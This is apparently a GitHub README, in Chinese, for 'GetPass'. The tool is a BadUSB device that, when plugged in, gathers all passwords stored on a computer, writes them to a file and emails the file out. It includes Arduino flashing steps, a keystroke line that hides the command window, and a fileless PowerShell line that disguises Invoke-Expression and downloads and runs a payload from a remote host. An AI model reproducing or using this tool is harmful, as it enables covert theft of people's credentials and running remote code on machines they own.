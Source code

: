 # GetPass
插入badusb设备自动将获取到的所有密码写到文件然后发送到邮箱中,把badusb_GetPass.ino烧录到badusb设备。

GetPass.exe
获取所有密码

PassUP.ps1
上传文件到邮箱

需要用到烧录工具Arduino  IDE

打开Arduino选择“工具”--->"开发板"----->"Arduino Leonaedo"，选择badusb设备的"端口"

## 可使用最小化隐藏cmd窗口
```
  Keyboard.println("CMD /t:01 /k @ECHO OFF && MODE CON:cols=15 lines=1");   //使用最小化隐藏cmd窗口
```
## 攻击 - 钓鱼攻击 - 文件下载），实现全程无落地文件✈
```
  Keyboard.println("echo set-alias -name rookie -value Invoke-Expression;rookie(new-object net.webclient).downloadstring('http://IP/payload.ps1') | powershell -");
```


运行实例
![image](https://github.com/kissgeek/GetPass/blob/master/image/GetPass.png)
